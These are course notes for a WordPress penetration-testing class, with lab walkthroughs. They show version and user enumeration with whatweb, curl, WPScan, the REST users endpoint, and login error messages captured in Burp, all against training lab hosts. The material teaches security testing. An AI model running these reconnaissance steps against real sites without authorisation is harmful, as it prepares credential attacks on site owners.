# CMS Security Testing

In the world of modern, ever-evolving web applications, Content Management Systems (CMS) are the backbone of countless websites, with WordPress being one of the most widely used Content Management Systems. However, the ubiquity of WordPress also makes it a prime target for cyberattacks given its market share. This course is designed to equip security professionals, web application pentesters, and developers with the skills and knowledge needed to identify, assess, exploit and mitigate security vulnerabilities in WordPress websites.

This course will start off by introducing you to the CMS Security Testing process and will provide you with a comprehensive methodology that you can use as a guide to thoroughly test CMSs for common vulnerabilities and misconfigurations. This course will then introduce you to WordPress and will outline the process of performing information gathering and enumeration on a WordPress site both manually and automatically. The information obtained from this enumeration phase will set the stage for the next phases set to follow.
You will then learn how to put to use the information gathered in the enumeration phase by learning how to perform a vulnerability scan on a WordPress site in order to identify vulnerabilities in themes and plugins. Armed with this knowledge, you will then learn how to exploit vulnerabilities identified in themes and plugins. This course also covers the process of performing various types of authentication attacks that will involve enumerating user accounts on a WordPress site, and will demonstrate how to utilize these usernames to perform a brute force attack to obtain valid login credentials.

---

## Course Introduction

### Course Topic Overview

- WordPress Version Enumeration (manual and with WPScan/WhatWeb)
- WordPress Users, Plugins and Themes Enumeration (manual and with WPScan)
- Hidden Files and Sensitive Information Enumeration (with Gobuster)
- WordPress Vulnerability Scanning (with WPScan)
- WordPress Authentication Brute-Force Attacks (with Burp Suite)
- WordPress Plugin Vulnerabilities Exploitation: Arbitrary File Upload
- WordPress Plugin Vulnerabilities Exploitation: Stored XSS

### Prerequisites

- Basic familiarity with HTTP/HTTPS
- Basic familiarity with Linux
- Basic familiarity with OWASP ZAP/Burp Suite
- Basic familiarity with Vulnerabilities like XSS, SQLi, etc.

### Learning Objectives

- You will have an understanding as to what CMSs are, how they work and what they are used for.
- You will have a solid understanding of how to methodologically perform a web app pentest on WordPress.
- You will have the ability to perform passive and active information gathering and enumeration on WordPress using both manual and automated techniques.
- You will be able to identify vulnerabilities in plugins and themes on WordPress sites both manually and automatically.
- You will be able to effectively use WPScan to automate information gathering and enumeration, identify vulnerabilities and perform brute-force attacks against WordPress sites.
- You will have a solid understanding of how to methodologically perform a web app pentest on WordPress.
- You will be able to perform authentication attacks like brute forcing WordPress login forms to obtain valid credentials.
- You will have the ability to identify and exploit vulnerabilities in WordPress themes and plugins.

---
---

[WordPress](https://wordpress.org/) is a free and open source full-featured CMS for hosting blogs and web portals. It is based on PHP and MySQL. It is one of the most popular CMS.

## Information Gathering and Enumeration

### WordPress Version Enumeration (manual and with WPScan/WhatWeb)

#### Lab Environment

**WordPress AdRotate**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. SQL Injection vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, the attacker is unauthenticated to the web application and needs to find an SQL Injection attack on it.

<u>A version of WordPress AdRotate Plugin is vulnerable to an SQL injection attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution



`whatweb https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/`:
```
https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.135.113], JQuery[1.11.3], MetaGenerator[WordPress 4.4]📌, PHP[5.5.9-1ubuntu4.25], PoweredBy[WordPress,WordPress,]📌, Script[text/javascript], Title[wpvuln &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.4], X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`view-source:https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/`:
```html
[...]

<meta name="generator" content="WordPress 4.4" />📌

[...]
```

`curl -I https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/`:
```
HTTP/2 200 
content-type: text/html; charset=UTF-8
date: Thu, 05 Dec 2024 14:35:04 GMT
link: </?rest_route=/>; rel="https://api.w.org/"
server: Apache/2.4.7 (Ubuntu)📌
x-powered-by: PHP/5.5.9-1ubuntu4.25📌
```

`curl https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/readme.html`:
```html
<!DOCTYPE html>
<html>
<head>
        <meta name="viewport" content="width=device-width" />
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
        <title>WordPress &#8250; ReadMe</title>
        <link rel="stylesheet" href="wp-admin/css/install.css?ver=20100228" type="text/css" />
</head>
<body>
<h1 id="logo">
        <a href="https://wordpress.org/"></a>
        <br /> Version 4.4📌

[...]

<h2>License</h2>
<p>WordPress is free software, and is released under the terms of the <abbr title="GNU General Public License">GPL</abbr> version 2 or (at your option) any later version. See <a href="license.txt">license.txt</a>.</p>

</body>
</html>
```

`curl https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/readme.txt`:
```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /readme.txt was not found on this server.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com Port 80</address>
</body></html>
```
❌

`curl https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-login.php`:
```php
<!DOCTYPE html>
        <!--[if IE 8]>
                <html xmlns="http://www.w3.org/1999/xhtml" class="ie8" lang="en-US">
        <![endif]-->
        <!--[if !(IE 8) ]><!-->
                <html xmlns="http://www.w3.org/1999/xhtml" lang="en-US">
        <!--<![endif]-->
        <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
        <title>wpvuln &rsaquo; Log In</title>

[...]
```

`curl https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-admin.php`:
```php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /wp-admin.php was not found on this server.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com Port 80</address>
</body></html>
```
❌

`curl https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/CHANGELOG.txt`:
```
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /CHANGELOG.txt was not found on this server.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at 37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com Port 80</address>
</body></html>
```
❌

`curl -s -X GET https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/ | grep 'http' | grep '?ver=' | sed -E 's,href=|src=,THIIIS,g' | awk -F 'THIIIS' '{print $2}' | cut -d "'" -f2`:
```
https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-includes/js/jquery/jquery.js?ver=1.11.3
https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-includes/js/jquery/jquery-migrate.min.js?ver=1.2.1
https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-includes/js/wp-embed.min.js?ver=4.4📌
```

`wpscan --url https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/ [172.104.135.113]
[+] Started: Thu Dec  5 15:45:27 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)📌
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25📌
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/readme.html🔍
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.4 identified (Insecure, released on 2015-12-09).📌
 | Found By: Rss Generator (Passive Detection)📌
 |  - https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/?feed=rss2, <generator>https://wordpress.org/?v=4.4</generator>🔍
 |  - https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.4</generator>🔍

[+] WordPress theme in use: twentysixteen📌
 | Location: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] adrotate
 | Location: https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/adrotate/
 | Last Updated: 2024-10-28T17:19:00.000Z
 | [!] The version is out of date, the latest version is 5.13.5
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 3.9.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=====================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Dec  5 15:45:36 2024
[+] Requests Done: 150
[+] Cached Requests: 27
[+] Data Sent: 52.92 KB
[+] Data Received: 173.011 KB
[+] Memory used: 272.551 MB
[+] Elapsed time: 00:00:08
```

`curl 'https://37dii7u6uq7m16jmskjovitnz.eu-central-6.attackdefensecloudlabs.com/?feed=rss2'`:
```xml
<?xml version="1.0" encoding="UTF-8"?><rss version="2.0"
        xmlns:content="http://purl.org/rss/1.0/modules/content/"
        xmlns:wfw="http://wellformedweb.org/CommentAPI/"
        xmlns:dc="http://purl.org/dc/elements/1.1/"
        xmlns:atom="http://www.w3.org/2005/Atom"
        xmlns:sy="http://purl.org/rss/1.0/modules/syndication/"
        xmlns:slash="http://purl.org/rss/1.0/modules/slash/"
        >

<channel>
        <title>wpvuln</title>
        <atom:link href="https:///?feed=rss2" rel="self" type="application/rss+xml" />
        <link></link>
        <description>Just another WordPress site</description>
        <lastBuildDate>Wed, 19 Jun 2019 13:45:40 +0000</lastBuildDate>
        <language>en-US</language>
        <sy:updatePeriod>hourly</sy:updatePeriod>
        <sy:updateFrequency>1</sy:updateFrequency>
        <generator>https://wordpress.org/?v=4.4</generator>📌
        <item>
                <title>Hello world!</title>
                <link>/?p=1</link>
                <comments>/?p=1#comments</comments>
                <pubDate>Wed, 19 Jun 2019 13:45:40 +0000</pubDate>
                <dc:creator><![CDATA[pentester]]></dc:creator>
                                <category><![CDATA[Uncategorized]]></category>

                <guid isPermaLink="false">/?p=1</guid>
                <description><![CDATA[Welcome to WordPress. This is your first post. Edit or delete it, then start writing!]]></description>
                                <content:encoded><![CDATA[<p>Welcome to WordPress. This is your first post. Edit or delete it, then start writing!</p>
]]></content:encoded>
                        <wfw:commentRss>/?feed=rss2&#038;p=1</wfw:commentRss>
                <slash:comments>1</slash:comments>
                </item>
        </channel>
</rss>
```

### WordPress Users, Plugins and Themes Enumeration (manual and with WPScan)

#### Lab Environment

**WordPress RCE**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be attacked remotely. User Enumeration vulnerabilities could be triggered even by unauthenticated users.

In the exercise below, <u>the attacker is not authenticated to the web application and needs to find a user enumeration attack to gain information about the users</u>.

<u>WordPress (4.7.1) is vulnerable to User Enumeration documented in CVE-2017-5487</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution



`whatweb https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/`:
```
https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.229.221], JQuery[1.12.4], MetaGenerator[WordPress 4.7.1], PHP[5.5.9-1ubuntu4.25], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Target WordPress &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.7.1],📌 X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`curl -s -I -X GET 'https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/?author=1'`:
```
HTTP/2 200📌
content-type: text/html; charset=UTF-8
date: Thu, 05 Dec 2024 14:58:03 GMT
link: </wp-json/>; rel="https://api.w.org/"
server: Apache/2.4.7 (Ubuntu)
vary: Accept-Encoding
x-powered-by: PHP/5.5.9-1ubuntu4.25
```

`curl -s -I -X GET 'https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/?author=3'`:
```
HTTP/2 404📌
cache-control: no-cache, must-revalidate, max-age=0
content-type: text/html; charset=UTF-8
date: Thu, 05 Dec 2024 14:58:33 GMT
expires: Wed, 11 Jan 1984 05:00:00 GMT
link: </wp-json/>; rel="https://api.w.org/"
server: Apache/2.4.7 (Ubuntu)
x-powered-by: PHP/5.5.9-1ubuntu4.25
```
❌

`curl -s -X GET https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-json/wp/v2/users | jq`:
```json
[
  {
    "id": 1,
    "name": "admin",📌
    "url": "",
    "description": "",
    "link": "/author/admin/",
    "slug": "admin",
    "avatar_urls": {
      "24": "https://secure.gravatar.com/avatar/1e421ab419b5bee07fe7fba2adc4e22f?s=24&d=mm&r=g",
      "48": "https://secure.gravatar.com/avatar/1e421ab419b5bee07fe7fba2adc4e22f?s=48&d=mm&r=g",
      "96": "https://secure.gravatar.com/avatar/1e421ab419b5bee07fe7fba2adc4e22f?s=96&d=mm&r=g"
    },
    "meta": [],
    "_links": {
      "self": [
        {
          "href": "/wp-json/wp/v2/users/1"
        }
      ],
      "collection": [
        {
          "href": "/wp-json/wp/v2/users"
        }
      ]
    }
  }
]
```

`curl -s -I -X GET https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/author/admin/`:
```
HTTP/2 200📌
content-type: text/html; charset=UTF-8
date: Thu, 05 Dec 2024 15:01:01 GMT
link: </wp-json/>; rel="https://api.w.org/"
server: Apache/2.4.7 (Ubuntu)
vary: Accept-Encoding
x-powered-by: PHP/5.5.9-1ubuntu4.25
```





`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /wp-login.php HTTP/1.1
Host: cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Referer: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

log=TEST&pwd=TEST&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-cache, must-revalidate, max-age=0
Content-Type: text/html; charset=UTF-8
Date: Thu, 05 Dec 2024 15:09:22 GMT
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Server: Apache/2.4.7 (Ubuntu)
Set-Cookie: wordpress_test_cookie=WP+Cookie+check; path=/
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 3307

<!DOCTYPE html>

[...]

	</head>
	<body class="login login-action-login wp-core-ui  locale-en-us">
		<div id="login">
		<h1><a href="https://wordpress.org/" title="Powered by WordPress" tabindex="-1">Target WordPress</a></h1>
	<div id="login_error">	<strong>ERROR</strong>: Invalid username. <a href="/wp-login.php?action=lostpassword">Lost your password?</a><br />📌
</div>

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /wp-login.php HTTP/2
Host: cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com
Referer: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/wp-login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

log=admin&pwd=TEST&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1📌
```
`HTTP Response`:
```http
HTTP/2 200 OK
Cache-Control: no-cache, must-revalidate, max-age=0
Content-Type: text/html; charset=UTF-8
Date: Thu, 05 Dec 2024 15:10:56 GMT
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Server: Apache/2.4.7 (Ubuntu)
Set-Cookie: wordpress_test_cookie=WP+Cookie+check; path=/
Vary: Accept-Encoding
X-Frame-Options: SAMEORIGIN
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 3352

<!DOCTYPE html>

[...]

	</head>
	<body class="login login-action-login wp-core-ui  locale-en-us">
		<div id="login">
		<h1><a href="https://wordpress.org/" title="Powered by WordPress" tabindex="-1">Target WordPress</a></h1>
	<div id="login_error">	<strong>ERROR</strong>: The password you entered for the username <strong>admin</strong> is incorrect. <a href="/wp-login.php?action=lostpassword">Lost your password?</a><br />📌
</div>

[...]
```

`curl -s -X GET https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/ | grep 'wp-content/plugins' | sed -E 's,href=|src=,THIIIS,g' | awk -F 'THIIIS' '{print $2}' | cut -d "'" -f2`:
```
```
❌

`curl -s -X GET https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/login.php | grep 'wp-content/plugins' | sed -E 's,href=|src=,THIIIS,g' | awk -F 'THIIIS' '{print $2}' | cut -d "'" -f2`:
```
```
❌

`curl -s -X GET https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/ | grep 'wp-content/themes' | sed -E 's,href=|src=,THIIIS,g' | awk -F 'THIIIS' '{print $2}' | cut -d "'" -f2`:
```
/wp-content/themes/twentyseventeen/style.css?ver=4.7.1📌
/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0
/wp-content/themes/twentyseventeen/assets/js/html5.js?ver=3.7.3
"/wp-content/themes/twentyseventeen/assets/images/header.jpg" width="2000" height="1200" alt="Target WordPress" /></div>    </div>
/wp-content/themes/twentyseventeen/assets/js/skip-link-focus-fix.js?ver=1.0
/wp-content/themes/twentyseventeen/assets/js/global.js?ver=1.0
/wp-content/themes/twentyseventeen/assets/js/jquery.scrollTo.js?ver=2.1.2
```

`wpscan --url https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/ --enumerate u`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/ [172.104.229.221]
[+] Started: Thu Dec  5 16:04:36 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] WordPress version 4.7.1 identified (Insecure, released on 2017-01-11).
 | Found By: Rss Generator (Passive Detection)
 |  - https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/feed/, <generator>https://wordpress.org/?v=4.7.1</generator>
 |  - https://cyli828u7hgwxlsg5ls6hrh9l.eu-central-5.attackdefensecloudlabs.com/comments/feed/, <generator>https://wordpress.org/?v=4.7.1</generator>

